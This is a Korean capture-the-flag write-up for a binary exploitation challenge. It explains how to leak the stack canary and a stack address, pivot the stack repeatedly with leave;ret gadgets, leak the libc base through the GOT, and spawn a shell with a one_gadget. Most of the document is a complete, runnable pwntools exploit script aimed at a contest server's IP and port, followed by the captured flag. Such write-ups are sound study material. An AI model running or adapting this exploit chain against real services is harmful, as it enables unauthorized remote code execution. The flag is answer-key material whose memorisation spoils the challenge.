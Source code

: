 ```bash
[*] '/mnt/d/hk/_contest/2024JBU-CTF/control base/challenge'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
pie가 꺼져있다.

프로그램은 단순하다. 첫 번째 입력을 받고, 출력하고 두 번째 입력을 받는다.
ROP를 할 수 있을 것 처럼 보이지만 0x38밖에 입력을 받지 않고, rbp - 0x20 부터 입력을 받는다. rbp - 0x8은 canary, rbp는 sfp이므로 실질적으로 페이로드로 사용할 수 있는 건 rbp - 0x20 ~ rbp - 0x8, rbp + 0x8 ~ rbp + 0x18 이다. 스택피보팅을 억지로 사용해서 rbp에 rbp - 0x28을, ret에 leave_ret 가젯을 넣고, rbp-0x20과 rbp-0x18에 원하는 작동, rbp-0x10에 Ret2main을 할 주소를 입력한다. 여기서 문제는 rbp - 0x28 값이 rbp에 들어가므로 이 부분에 정상적인 스택 주소가 있어야 한다는 것이다.
또 고려해야 할 것은 filter 함수의 실행이다. `mov rbp, rsp`를 실행하지 않는 곳으로 ret하면, rsp가 rbp 바로 밑에 있는 경우 read 다음에 filter가 실행되어 canary가 있는 곳이 변조되어 stack smashed가 뜨거나, 미리 짜놓았던 payload가 망가진다. 따라서 rbp는 항상 rsp랑 멀리 떨어져 있어야 한다.

일단 canary 값을 구하고, 손수 offset 노가다를 통해 어떤 스택 주소(`ss` 라 하자.)를 구한다.(dockerfile이 안 주어져서 리모트에서 직접 노가다해야 했다.) 그 다음에 `ss` + 0x100과 `ss` + 0x200 지역에 `ss` + 0x300 값을 입력해놓는다. 그러면 rbp-0x28에 `ss` + 0x300 값이 있도록 세팅하고, 여러 작동을 수행할 수 있다. 지금 rbp `ss` + 0x300에 있다면 `ss` + 0x200 이 되도록 하고, 이 왔다갔다를 반복한다. (마치 스택을 여기 쓰고 저기 갔다가 다시 여기 쓰고 저기 가고를 반복하는 것이다.)

```bash
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```
처음엔 pop_rdi 와 read_got, 그리고 main에서 printf 직전으로 돌아가 libc_base를 얻는다.
이제 원가젯을 사용하고자 한다. 이때 r12는 main 과정에서 쓰이지 않으므로, pop_r12, 0 을 통해 r12를 NULL로 만들고, pop_r15, 0, libc_base + 0xe3afe으로 one_gadget을 통해 쉘을 딴다.

이 때 위 과정에서 전체적으로 주의할 점은 printf와 system은 MOVAPS 이슈가 발생할 수 있기 때문에 이를 조심한다.

# Exploit code

```python
from pwn import *
from time import *

context.terminal = ["tmux", "splitw", "-h"]

# p = process('./challenge')
e = ELF('./challenge')
l = ELF('./libc-2.31.so')

pop_rdi = 0x00000000004013d3
bss = e.bss() + 0x500
leave_ret = 0x00000000004012a5
main = 0x4011d6
main_no_push_rbp = 0x4011db
ret = 0x000000000040101a

# gdb.attach(p)

p = remote('44.210.9.208', 10012)

p.sendafter(b'name : ', b'a' * 0x19)
p.recvuntil(b'a' * 0x19)
canary = u64(b'\x00' + p.recvn(7))
print(hex(canary))

payload = b'a' * 0x18 + p64(canary) + p64(bss) + p64(main_no_push_rbp)
p.sendafter(b'rename : ', payload)

p.sendafter(b'name : ', b'a' * 0x28)
p.recvuntil(b'a' * 0x28)
sfp = u64(p.recvn(6) + b'\x00' * 2) + 8
print(hex(sfp))

payload = p64(canary) * 4 + p64(sfp + 0x100) + p64(0x40126A)
p.sendafter(b'rename : ', payload)

payload = p64(sfp + 0x308) + p64(canary) * 3 + p64(sfp + 0x200) + p64(0x40126A)
sleep(1)
p.send(payload)
sleep(1)

payload = p64(sfp + 0x308) + p64(canary) * 3 + p64(sfp + 0x100 + 8) + p64(0x40126A)
sleep(1)
p.send(payload)
sleep(1)

payload = p64(pop_rdi) + p64(e.got['read']) + p64(0x401260) + p64(canary) + p64(sfp + 0x100 + 8 - 0x28) + p64(leave_ret)
sleep(1)
p.send(payload)
sleep(1)

l.address = u64(p.recvn(6).ljust(8, b'\x00')) - l.sym['read']
print(hex(l.address))

payload = p64(canary) * 4 + p64(sfp + 0x200 + 8) + p64(0x40126A)
sleep(1)
p.send(payload)
sleep(1)

pop_r12 = l.address + 0x000000000002f709
pop_r15 = 0x00000000004013d2
og = l.address + 0xe3afe

payload = p64(pop_r15) + p64(0) + p64(0x40126a) + p64(canary) + p64(sfp + 0x200 + 8 - 0x28) + p64(leave_ret)
sleep(1)
p.send(payload)
sleep(1)

payload = p64(pop_r12) + p64(0) + p64(og) + p64(canary) + p64(sfp + 0x308 - 0x28) + p64(leave_ret)
sleep(1)
p.send(payload)
sleep(1)

p.interactive()
```
`scpCTF{2yxlXCFpX8pbtcJAUpXY2gZlitfjBt}`